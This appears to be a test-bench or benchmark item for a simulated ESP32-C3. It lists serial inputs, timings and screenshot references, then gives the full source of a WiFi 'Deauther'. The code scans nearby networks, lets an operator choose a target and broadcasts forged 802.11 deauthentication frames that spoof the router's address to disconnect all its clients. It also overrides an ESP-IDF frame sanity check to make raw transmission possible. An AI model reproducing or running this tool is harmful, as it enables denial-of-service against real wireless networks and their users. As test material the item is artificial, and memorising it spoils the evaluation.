
The program below on a simulated ESP32-C3. Shown: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). A WiFi scan finds three made-up networks.

Above: at 4.3 s.
4.4 s: "scan\n" received over Serial
At 5.6 s:

5.9 s: "90,45\n" received over Serial
At 7.7 s:

8.0 s: "0\n" received over Serial
At 8.4 s:


Measured:
- after the input at 4.4 s, the serial monitor: prints a new line at once (image 1)
- after the input at 5.9 s, the serial monitor: prints a new line after 0.62 s (image 2)
- after the input at 8.0 s, the serial monitor: prints a new line at once (image 3)

The program:

main.cpp
```cpp
#include <Arduino.h>
#include <WiFi.h>
#include <esp_task_wdt.h> // Для сброса watchdog
#include "config.h"
#include "scan.h"
#include "deauth.h"

void setup() {
    Serial.begin(SERIAL_BAUD);
    delay(1000);

    // Отключаем Task Watchdog для главной задачи, чтобы он не ресетил плату при долгих операциях
    // esp_task_wdt_deinit(); // Раскомментируй, если будут постоянные ресеты

    Serial.println("ESP32 Deauther Started");

    // Начальный скан
    scanNetworks();
}

void loop() {
    // Кормим watchdog, чтобы плата не думала, что мы зависли
    yield();
    esp_task_wdt_reset();

    // Обработка атаки
    if (isAttacking) {
        sendDeauthPackets();
    }

    // Обработка команд из Serial
    if (Serial.available() > 0) {
        String input = Serial.readStringUntil('\n');
        input.trim();

        if (input.equalsIgnoreCase("scan")) {
            stopDeauth();
            scanNetworks();
        }
        else if (input.equalsIgnoreCase("stop")) {
            stopDeauth();
        }
        else {
            // Проверяем, число ли это
            int id = input.toInt();
            if (id >= 0 && id < networkCount) {
                startDeauth(id);
            } else {
                Serial.println("Unknown command. Use: scan, stop, or <ID number>");
            }
        }
    }
}
```

deauth.h
```cpp
#ifndef DEAUTH_H
#define DEAUTH_H

#include "config.h" // <--- Сначала конфиг
#include <Arduino.h>
#include <WiFi.h>
#include <esp_wifi.h>

// Структура Deauth пакета IEEE 802.11
typedef struct {
    uint8_t frame_control[2];
    uint8_t duration[2];
    uint8_t dest[6];
    uint8_t src[6];
    uint8_t bssid[6];
    uint8_t seq[2];
    uint16_t reason;
} __attribute__((packed)) deauth_frame_t;

extern bool isAttacking;
extern int targetIndex;

void startDeauth(int index);
void stopDeauth();
void sendDeauthPackets();

#endif
```

scan.h
```cpp
#ifndef SCAN_H
#define SCAN_H

#include "config.h" // <--- Сначала конфиг, чтобы знать MAX_NETWORKS
#include <Arduino.h>
#include <WiFi.h>

struct WifiNetwork {
    String ssid;
    uint8_t bssid[6];
    int channel;
    int rssi;
};

extern WifiNetwork networks[MAX_NETWORKS];
extern int networkCount;

void scanNetworks();
void printNetworkList();

#endif
```

deauth.cpp
```cpp
#include "deauth.h"
#include "scan.h"
#include "config.h"
#include <esp_wifi.h> // <--- ВАЖНО: Добавлено это включение

bool isAttacking = false;
int targetIndex = -1;
unsigned long lastPacketTime = 0;

// Хак для обхода проверки целостности пакетов в ESP-IDF
extern "C" int ieee80211_raw_frame_sanity_check(int32_t arg, int32_t arg2, int32_t arg3) {
    return 0;
}

void startDeauth(int index) {
    if (index < 0 || index >= networkCount) {
        Serial.println("Invalid ID.");
        return;
    }

    targetIndex = index;
    isAttacking = true;

    Serial.print("Starting attack on: ");
    Serial.println(networks[index].ssid);

    // Переключаем WiFi в режим STA для отправки пакетов
    WiFi.mode(WIFI_MODE_STA);
    esp_wifi_set_promiscuous(true);
}

void stopDeauth() {
    isAttacking = false;
    targetIndex = -1;
    esp_wifi_set_promiscuous(false);
    Serial.println("Attack stopped.");
}

void sendDeauthPackets() {
    if (!isAttacking || targetIndex == -1) return;

    // Контроль скорости отправки
    if (millis() - lastPacketTime < (1000 / PACKETS_PER_SECOND)) {
        return;
    }
    lastPacketTime = millis();

    WifiNetwork target = networks[targetIndex];

    // Создаем Deauth фрейм
    deauth_frame_t frame;
    memset(&frame, 0, sizeof(deauth_frame_t));

    frame.frame_control[0] = 0xC0; // Type: Management, Subtype: Deauthentication
    frame.frame_control[1] = 0x00;
    frame.duration[0] = 0x00;
    frame.duration[1] = 0x00;

    // Dest: Broadcast (FF:FF:FF:FF:FF:FF) чтобы разорвать связь со всеми клиентами
    memset(frame.dest, 0xFF, 6);

    // Src и BSSID: MAC адрес роутера жертвы
    memcpy(frame.src, target.bssid, 6);
    memcpy(frame.bssid, target.bssid, 6);

    frame.seq[0] = 0xF0;
    frame.seq[1] = 0xFF;
    frame.reason = DEAUTH_REASON;

    // Устанавливаем канал
    esp_wifi_set_channel(target.channel, WIFI_SECOND_CHAN_NONE);

    // Отправляем пакет
    esp_err_t err = esp_wifi_80211_tx(WIFI_IF_STA, &frame, sizeof(deauth_frame_t), false);

    if (err != ESP_OK) {
        // Ошибка отправки (часто бывает на C3 без патча ядра)
        // Serial.printf("TX Error: %d\n", err);
    }
}
```

scan.cpp
```cpp
#include "scan.h"
#include "config.h"
#include <esp_wifi.h>
#include <esp_task_wdt.h>
#include <stdio.h>

WifiNetwork networks[MAX_NETWORKS];
int networkCount = 0;

void scanNetworks() {
    Serial.println("Scanning...");

    // Сбрасываем watchdog перед долгой операцией
    esp_task_wdt_reset();

    WiFi.mode(WIFI_MODE_STA);
    WiFi.disconnect();
    delay(100); // Даем время на переключение режима

    esp_task_wdt_reset(); // Еще раз кормим пса

    // Сканирование может занять до 5-10 секунд
    networkCount = WiFi.scanNetworks();

    esp_task_wdt_reset(); // И после сканирования

    if (networkCount == 0) {
        Serial.println("No networks found.");
        return;
    }

    // Ограничиваем количество сетей
    if (networkCount > MAX_NETWORKS) {
        networkCount = MAX_NETWORKS;
    }

    for (int i = 0; i < networkCount; i++) {
        networks[i].ssid = WiFi.SSID(i);
        networks[i].channel = WiFi.channel(i);
        networks[i].rssi = WiFi.RSSI(i);
        memcpy(networks[i].bssid, WiFi.BSSID(i), 6);
    }

    printNetworkList();
}

void printNetworkList() {
    Serial.println("-----------------------------------");
    Serial.println("ID | SSID             | CH | RSSI");
    Serial.println("-----------------------------------");

    for (int i = 0; i < networkCount; i++) {
        Serial.printf("%-2d | %-16s | %2d | %4d\n",
            i,
            networks[i].ssid.substring(0, 16).c_str(),
            networks[i].channel,
            networks[i].rssi);
    }
    Serial.println("-----------------------------------");
    Serial.println("Enter ID to attack, 'scan' to rescan, 'stop' to stop.");
}
```

config.h
```cpp
#ifndef CONFIG_H
#define CONFIG_H

// Настройки WiFi
#define MAX_NETWORKS 20
#define DEAUTH_REASON 1 // 1 = Unspecified reason
#define PACKETS_PER_SECOND 50 // Скорость отправки пакетов

// Настройки Serial
#define SERIAL_BAUD 115200

// Пины (для C3 Super Mini обычно нет встроенного LED для индикации, можно оставить пустым)
#define LED_PIN -1

#endif
```
